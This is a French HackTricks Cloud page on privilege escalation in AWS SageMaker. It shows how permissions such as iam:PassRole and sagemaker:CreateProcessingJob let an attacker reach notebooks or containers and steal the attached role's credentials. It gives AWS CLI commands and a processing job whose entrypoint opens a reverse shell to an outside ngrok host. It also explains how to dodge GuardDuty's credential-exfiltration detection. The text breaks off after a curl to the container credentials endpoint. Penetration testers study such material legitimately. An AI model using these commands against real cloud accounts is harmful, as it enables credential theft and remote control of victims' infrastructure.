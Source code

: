 # AWS - Sagemaker Privesc

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

La première étape de ce processus d'attaque consiste à **identifier un rôle qui fait confiance à SageMaker pour l'assumer** (sagemaker.amazonaws.com). Une fois cela fait, nous pouvons exécuter la commande suivante pour créer un nouveau notebook avec ce rôle attaché :

```
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```

Si cela réussit, vous recevrez l'**ARN de la nouvelle instance de notebook** dans la réponse d'AWS. Cela prendra **quelques minutes** pour se mettre en place, mais une fois que cela est fait, nous pouvons exécuter la commande suivante pour obtenir une URL pré-signée pour accéder au notebook via notre navigateur web. Il existe potentiellement d'autres moyens d'accéder, mais c'est une seule autorisation et un seul appel d'API, donc cela semblait simple.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

Si cette instance était entièrement mise en place, cet appel d'API renverra une **URL signée que nous pouvons visiter** dans notre navigateur pour accéder à l'instance. Une fois sur la page Jupyter dans mon navigateur, je vais cliquer sur "Open JupyterLab" en haut à droite, comme on peut le voir sur la capture d'écran suivante.

![](<../../../.gitbook/assets/image (15) (1).png>)

À partir de la page suivante, faites défiler tout en bas de l'onglet "Launcher". Sous la section "Other", cliquez sur le bouton "Terminal", que l'on peut voir ici.

![](<../../../.gitbook/assets/image (27).png>)

À partir du terminal, nous avons plusieurs options, dont l'une serait simplement d'**utiliser l'AWS CLI**. L'autre option serait de **contacter le service de métadonnées EC2** pour les informations d'identification du rôle directement et les exfiltrer.

GuardDuty pourrait venir à l'esprit en lisant "les exfiltrer" ci-dessus, cependant, nous n'avons pas vraiment besoin de nous soucier de GuardDuty ici. La découverte de GuardDuty associée est [« UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration »](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_unauthorized.html#unauthorized11), qui alertera si les informations d'identification d'un rôle sont volées depuis une instance EC2 et utilisées ailleurs. Heureusement pour nous, cette instance EC2 ne vit pas réellement dans notre compte, mais c'est plutôt une **instance EC2 gérée hébergée dans un compte AWS détenu**. Cela signifie que **nous pouvons exfiltrer ces informations d'identification et ne pas nous soucier de déclencher** les détecteurs GuardDuty de notre cible.

**Impact potentiel :** Privesc vers le rôle de service sagemaker spécifié.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

De manière similaire à l'exemple précédent, si des **notebooks Jupyter sont déjà en cours d'exécution** et que vous pouvez les lister avec sagemaker:ListNotebookInstances (ou les découvrir de toute autre manière), vous pouvez **générer une URL pour eux, y accéder et voler les informations d'identification comme indiqué dans la technique précédente**.

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

**Impact potentiel :** Privesc vers le rôle de service sagemaker attaché.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un attaquant disposant de ces autorisations peut faire **exécuter à sagemaker un job de traitement** avec un rôle sagemaker attaché. L'attaquant peut indiquer la définition du conteneur qui sera exécuté dans une **instance de compte ECS gérée par AWS**, et **voler les informations d'identification du rôle IAM attaché**.

```bash
# J'ai téléchargé une image Docker python sur l'ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# Dans mes tests, cela a pris 10 minutes pour recevoir le shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #